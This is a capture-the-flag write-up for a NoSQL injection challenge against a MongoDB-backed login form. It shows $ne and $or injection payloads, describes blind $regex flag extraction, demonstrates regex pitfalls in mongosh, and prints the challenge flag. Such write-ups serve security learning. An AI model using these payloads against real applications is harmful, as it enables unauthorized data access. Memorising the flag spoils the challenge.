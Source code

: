 # NoSQL injection - Authentication

**Point**: 35 Points

**Title**: Find me

**Description**: Find the username of the hidden user.

## Analysis (This just for newbie):

We again have a form that needs to be bypassed.

<p align="center"><img src="images/loginform.png"></p>

Skip some challenge's names, I should have a quick test with simple payload:

```
?chall_name[$ne]=1&flag[$ne]=1
```

<p align="center"><img src="images/filter.png"></p>

"Associative array" techniques may not work.

Now, focus on the obvious condition that we know the correct "challenges", 1 field in this form. So with this data, I straightforwardly think of constructing a payload that use "OR" operator  to bypass as normal-case SQL Injection. I learn that from the [provided document](https://repository.root-me.org/Exploitation%20-%20Web/EN%20-%20NoSQL,%20No%20injection%20-%20Ron,%20Shulman-Peleg,%20Bronshtein.pdf?_gl=1*zh58dy*_ga*MTU3NDQyNTQwNy4xNjYyMTI2NjEx*_ga_SRYSKX09J7*MTY2MjEzMjQxNC4xMi4wLjE2NjIxMzI0MjYuMC4wLjA.). Payload:

```
chall_name=bluebox", $or: [ {}, { "1":"1&flag=" } ], $comment:"successful MongoDB injection"
```

MongoDB execute the query look like this:

```mongodb
db.chall.find({"chall_name": "injection1", "flag": "injection2")
```

After we inject malicious command:

```mongodb
db.chall.find({"chall_name": "bluebox", $or: [ {}, { "1":"1", "flag": "" } ], $comment:"Hacked by khangtictoc"")
```

This is equivalent to `SELECT * FROM chall WHERE chall_name="bluebox" OR (True AND ("1"="1" AND flag="")) // Hacked by khangtictoc`. We must know a specific `chall_name` to conduct attack, this was given with "bluebox, zeusbot, nosqlblind" for us to test.

But, unfortunately:

<p align="center"><img width=400 height=180 src="images/wrong.png"></p>

Whoops! Maybe the backend handles this too. 

So we really lost our track? It takes much time to test more and I surprisingly notice that there is a vulnerability in `flag` box. They do not apply filter on this compared to `chall_name` one. Now things are done, combining with the title "Blind SQL" and our goal is to check the correct flag.

To achieve the goal, I write a **Python** code and use `$regex` to make a comparison with actual flag's pattern. I check printable characters except some special cases and loop on each flag's position. I let my code [here](solve.py)

## Solution:

Run `solve.py` *(Make sure to use a VPN or fixed IPv6 address).* The code content I have explained clearly with comments.

<p align="center"><img src="images/result.png"></p>

A little hard-working. Right?

## More Explanations:

> Note: This only for deeper understanding

`$regex` is the most best-fit way I could come up with. Besides, there are some special chars that we should avoid when comparing like ['*' , '+', '.', '?', '|', '&', '$']. This will make the regex pattern work as the way we do not want or predict.

> Note: Regex in MongoDB acts a little different when compared to others.

Try some examples with `mongosh` (MongoShell):

`Wrong match case with first correct characters or strings`. The case includes ['*' , '+', '.', '?', '|']

```shell
test> use test
already on db test
test> db.test.insertOne({"flag": "3iteasytomisunderstanding"})
{
  acknowledged: true,
  insertedId: ObjectId("63121aef6fe86849cca910f6")
}
test> db.test.find({"flag": {$regex: "^3*"}})
[
  {
    _id: ObjectId("63121aef6fe86849cca910f6"),
    flag: '3iteasytomisunderstanding'
  }
]
test> db.test.find({"flag": {$regex: "^3+"}})
[
  {
    _id: ObjectId("63121aef6fe86849cca910f6"),
    flag: '3iteasytomisunderstanding'
  }
]
test> db.test.find({"flag": {$regex: "^3."}})
[
  {
    _id: ObjectId("63121aef6fe86849cca910f6"),
    flag: '3iteasytomisunderstanding'
  }
]
test> db.test.find({"flag": {$regex: "^3?"}})
[
  {
    _id: ObjectId("63121aef6fe86849cca910f6"),
    flag: '3iteasytomisunderstanding'
  }
]
test> db.test.find({"flag": {$regex: "^3|"}})
[
  {
    _id: ObjectId("63121aef6fe86849cca910f6"),
    flag: '3iteasytomisunderstanding'
  }
]
```

`Wrong match case when ending the searching`. The case includes ['&'], this shows the mark of ending.

```shell
test> db.test.insertOne({"flag": "3@sY_n0_5q7_1nj3c710n"})
{
  acknowledged: true,
  insertedId: ObjectId("63122a536fe86849cca910f7")
}
test> db.test.find({"flag": {$regex: "^3@sY_n0_5q7_1nj3c710n$$$$$$$$$$$$$$$$$$$$"}})
```

Flag: **3@sY_n0_5q7_1nj3c710n**